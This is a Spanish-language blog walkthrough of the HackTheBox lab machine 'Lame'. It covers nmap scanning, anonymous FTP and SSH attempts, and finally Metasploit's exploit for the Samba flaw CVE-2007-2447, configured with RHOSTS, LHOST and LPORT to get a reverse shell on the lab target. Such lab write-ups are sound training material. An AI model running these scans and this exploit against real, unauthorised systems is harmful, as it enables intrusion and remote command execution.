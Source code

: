 ```yaml
---
layout: post
title:  "Maquina Lame Hackthebox (metaesploit)"
summary: "Guia para resolver la maquina Lame de hackthebox"
author: drone
date: '2023-10-25'
category: ['hacking','metaesploit', 'linux']
tags: hacking
thumbnail:
keywords: hackthebox lame hackthebox guide
usemathjax: false
permalink: /blog/adding-categories-tags-in-posts/
---
```


## Maquina Lame

Este es un walkthrough para la resolución de la **Maquina Lame**. En esta guía veremos la explotación de la vulnerabilidad **CVE-2007-2447** también conocida como **username map script** que afecta el servicio **samba**, utilizado para compartir recursos en una red. Esta vulnerabilidad nos permitirá ejecutar comandos de manera remota en la maquina objetivo.

Antes de pasar directamente a la vulnerabilidad iremos haciendo algunas pruebas con los demás servicios para ver si también es que podemos atacar por algún otro puerto.

1.-Ping al objetivo, Por el **ttl** podemos darnos cuenta de que es una máquina **Linux**.

  ![Ping](/assets/maquinas/Lame/01Lame.png)

  ```jsx
ping 10.10.10.3
```

2.-Escaneamos e identificamos todos los puertos abiertos del objetivo.

  ![Ping](/assets/maquinas/Lame/02Lame.png)

  ```jsx
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.3
```

3.-Identificamos los servicios que están corriendo en los puertos abiertos.

  ![Ping](/assets/maquinas/Lame/03Lame.png)

  ```jsx
sudo nmap -sCV -p21,22,139,445,3632 -Pn 10.10.10.3
```

4.- En los resultados del escaneo podemos ver que tenemos el puerto 21 abierto y que el **inicio de sesión anónimo** está habilitado lo que da pie a que se pueda acceder al equipo objetivo a través de esta mala configuración en el servicio. Cuando estamos en un caso similar comprobaremos primero que realmente tengamos acceso y después tratar de visualizar, descargar o cargar archivos mediante **ftp**.

![Ping](/assets/maquinas/Lame/04Lame.png)

5.- Intentamos acceder por algún usuario por default que utiliza este servicio, utilizare el usuario y contraseña **ftp:fpt**. Como se puede ver tenemos cierto acceso y enseguida se tratan de listar archivos.

  ![Ping](/assets/maquinas/Lame/05Lame.png)

  ```jsx
ftp 10.10.10.3
```

6.- Tratamos de subir un archivo para comprobar si tenemos permisos de escritura. Al parecer no tenemos permisos.

  ![Ping](/assets/maquinas/Lame/06Lame.png)

  ```jsx
put file
```

7.- Se trato de descargar los archivos a través de la conexión ftp para revisar si podíamos descargar algún archivo oculto. 

  ![Ping](/assets/maquinas/Lame/07Lame.png)

  ```jsx
wget -m --no-passive ftp://ftp:ftp@10.10.10.3
```

8.- Como vimos que no pudimos hacer nada mediante la **autenticación anónima (Anonymous login)**. Entonces regresaremos al escaneo y buscaremos vulnerabilidades sobre el software y la versión que está utilizando el puerto 21 para el servicio **fpt**.  

  ![Ping](/assets/maquinas/Lame/08Lame.png)

9.- Ahora iniciaremos una consola de **metasploit** para buscar vulnerabilidades referentes a vsftpd **2.3.4** y explotar la máquina. Vemos que si existe un **exploit**.

  ![Ping](/assets/maquinas/Lame/09Lame.png)

  ```jsx
msf6 > search vsftpd 2.3.4
```

10.- Ya vimos que tenemos un **exploit** para el servicio de **ftp** que se está usando. Procederemos a configurarlo y posteriormente ejecutarlo.

  ![Ping](/assets/maquinas/Lame/10Lame.png)

11.- Explotamos, aquí este **exploit** no servirá dado que requiere que posteriormente se tengan unas credenciales validas.

  ![Ping](/assets/maquinas/Lame/11Lame.png)

  ```jsx
exploit
```

12.- Lo que tenemos que hacer ahora es regresar a nuestro escaneo de puertos y servicios para buscar otros vectores de ataque en los demas puertos. Seguiremos con el puerto 22 donde está corriendo el servicio de **SSH (Secure Shell)** conexión de acceso remoto cifradas.

13.- Con **NMAP** Procedemos a buscar vulnerabilidades en el puerto 22. Los resultados nos indican que no se encontraron vulnerabilidades.

  ![Ping](/assets/maquinas/Lame/13Lame.png)

  ```jsx
nmap -p 22 --script "vuln" 10.10.10.3 -Pn
ó
nmap -p 22 --script "vuln and safe" 10.10.10.3 -Pn
```

14.- Buscaremos vulnerabilidades a través de **metaesploit**, según los resultados arrojados ningún **exploit** nos sireve ya que la primera opción es un módulo auxiliar para **enumerar** usuarios y el segundo es un **exploit** para Windows.

  ![Ping](/assets/maquinas/Lame/14Lame.png)

  ```jsx
msf6 > search OpenSSH 4
```

15.- Cuando tenemos un puerto 22 podemos intentar es iniciar sesión con el usuario **ROOT**, este usuario viene por defecto activado en **SSH** podemos intentar entrar si es que no deshabilitaron esta opción, por lo que se ve no está activado este usuario.

  ![Ping](/assets/maquinas/Lame/15Lame.png)

  ```jsx
ssh root@10.10.10.3
```

16.- Como tampoco pudimos explotar el puerto 22 regresaremos a nuestro escaneo e intentaremos con otro puerto, en este caso iremos con el puerto 139.

17.- Buscaremos vulnerabilidades en el puerto 139 con **NMAP**. Tampoco pudimos encontrar vulnerabilidades por este puerto.

  ![Ping](/assets/maquinas/Lame/16Lame.png)

  ```jsx
nmap -p 139 --script "vuln" 10.10.10.3 -Pn
ó
nmap -p 139 --script "vuln and safe" 10.10.10.3 -Pn
```

18.- Ahora pasaremos a buscar por el puerto 445, les adelanto que aquí es donde está la vulnerabilidad, entonces regresaremos a nuestro escaneo del principio. Veremos que también hay un servicio **samba** en el puerto 445 y que nos da también la versión que esta corriendo.

En esta ocasión **nmap** no nos ayuda con la búsqueda de la vulnerabilidad haremos uso de una web llamda **https://www.exploit-db.com/** y tomando la versión de **samba** que se está ejecutando, ahora si nos muestra la clave de la vulnerabilidad que presenta este servicio. En los anteriores puertos se puede hacer el mismo procedimiento, se omitió porque la web nos daba los mismos resultados que **nmap**.

![Ping](/assets/maquinas/Lame/18Lame.png)

19.- Procederemos a buscar el **exploit** en **metasploit**.

![Ping](/assets/maquinas/Lame/19Lame.png)

  ```jsx
msfconsole

search CVE-2007-2447
```
20.- Ahora procederemos a usar y configurar el **exploit**, indicamos los puertos e IPs involucradas.

![Ping](/assets/maquinas/Lame/20Lame.png)

  ```jsx
use 0

set RHOSTS 10.10.10.3

set RPORT 445

set LHOST 10.10.10.6

set LPORT 2666
```

21.-Explotamos!.

![Ping](/assets/maquinas/Lame/21Lame.png)

  ```jsx
run
```

22.-Se genera la conexión y podemos ver que entramos al equipo objetivo.

![Ping](/assets/maquinas/Lame/22Lame.png)

  ```jsx
whoami

pwd
```